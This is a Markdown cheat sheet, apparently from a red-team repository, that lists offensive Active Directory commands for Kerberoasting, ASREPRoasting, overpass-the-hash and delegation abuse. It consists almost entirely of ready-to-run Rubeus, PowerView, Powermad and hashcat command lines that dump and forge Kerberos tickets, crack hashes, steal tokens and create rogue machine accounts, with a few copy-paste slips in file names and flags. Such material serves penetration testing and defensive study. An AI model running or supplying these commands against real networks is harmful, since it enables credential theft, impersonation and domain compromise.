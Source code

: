 ### Kerberoasting
```
powershell Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName
execute-assembly C:\Users\Public\Rubeus.exe kerberoast /outfile:hashes.asreproast
execute-assembly C:\Users\Public\Rubeus.exe kerberoast /domain:dev.insomnia.co.mm
hashcat64.exe -a 0 -m 13100 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt -o winpass2.txt --force  --potfile-disable
```

### ASREPRoasting
```
powershell Get-DomainUser -PreauthNotRequired -Properties SamAccountName
execute-assembly C:\Users\Public\Rubeus.exe  kerberoast format:hashcat /outfile:hashes.asreproast
execute-assembly C:\Users\Public\Rubeus.exe asreproast /domain:dev.insomnia.co.mm
hashcat64.exe -a 0 -m 18200 C:\Users\NyaMeeEain\hashes.asreproast C:\Users\NyaMeeEain\Data\rockyou.txt --force  --potfile-disable
```
### Overpass-the-Hash
```
execute-assembly C:\Users\Public\Rubeus.exe  triage
Rubeus asktgt /user:n.John /rc4:2e8a408a8aec852ef2e458b938b8c071
Rubeus ptt /ticket:doIFXDCCBVi[…snip…]bDWN5YmVyYm90aWMuaW8=
```
### Unconstrained Delegation
the server or the service account that is granted this right is able to impersonate a user to authenticate to any services on any host,you are granting that account permission to delegate to any service
```
powershell Get-DomainComputer -Unconstrained -Properties DnsHostName
powershell Get-DomainGPOLocalGroup
powershell Get-DomainGroupMember -identity 'Workstation Admins' -recurse | select -exp membername 
powershell Get-DomainGroupMember -identity 'Helpdesk\Admins' -recurse | select -exp membername  
powershell Get-DomainOU -GPLink '{66465373-16CB-4F96-BD3A-12AE7D2C2371}' | % {Get-DomainComputer -SearchBase $_.distinguishedname -Properties dnshostname}
powershell Find-DomainUserLocation -userIdentity 'Workstation\Admins'  

execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /luid:0x1c6be # krbtgt/insomnia.ninja along with LUID
execute-assembly C:\Users\Public\Rubeus.exe dump /service:krbtgt
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe 
execute-assembly C:\Users\Public\Rubeus.exe ptt /luid:0x21d8e17 /ticket:[...snip...]
steal_token 4652
```
### Constrained Delegation
constrained delegation takes it a step further by allowing you to configure which services an account can be delegated to.it limits delegation to a specified list, rather than allowing delegation to any service as in unconstrained delegation.
```
powershell Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
powershell Get-DomainComputer web-2.cyberbotic.io | select -exp msds-AllowedToDelegateTo 
powershell Get-DomainComputer -TrustedToAuth | select -exp dnshostname 
powershell Get-DomainComputer -TrustedToAuth -Properties distinguishedname,msds-allowedtodelegateto,useraccountcontrol -Verbose | fl 
powershell Get-DomainComputer web-2.cyberbotic.io | select -exp msds-AllowedToDelegateTo #To find what services it could delegate for
execute-assembly C:\Users\Public\Rubeus.exe triage
execute-assembly C:\Users\Public\Rubeus.exe dump /service:krbtgt
execute-assembly C:\Users\Public\Rubeus.exe s4u /impersonateuser:JOHN-PC$ /msdsspn:cifs/John-PC.acmebank.local /ticket:
execute-assembly C:\Users\Public\Rubeus.exe s4u /impersonateuser:n.glover /msdsspn:cifs/fs-1.cyberbotic.io /ticket:[...snip...]
execute-assembly C:\Users\Public\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
execute-assembly C:\Users\Public\Rubeus.exe ptt /luid:0x239b995 /ticket:[...snip...]
steal_token 3420
ls \\fs-1.cyberbotic.io\c$
```
### Resource-based Constrained Delegation
```
Get-DomainObject -Identity "dc=offense,dc=local" -Domain offense.local

import-module powermad

New-MachineAccount -MachineAccount FAKECOMPUTER -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
Get-DomainComputer FAKECOMPUTER #Check if created if you have powerview

.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER /domain:domain.local

rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt

```

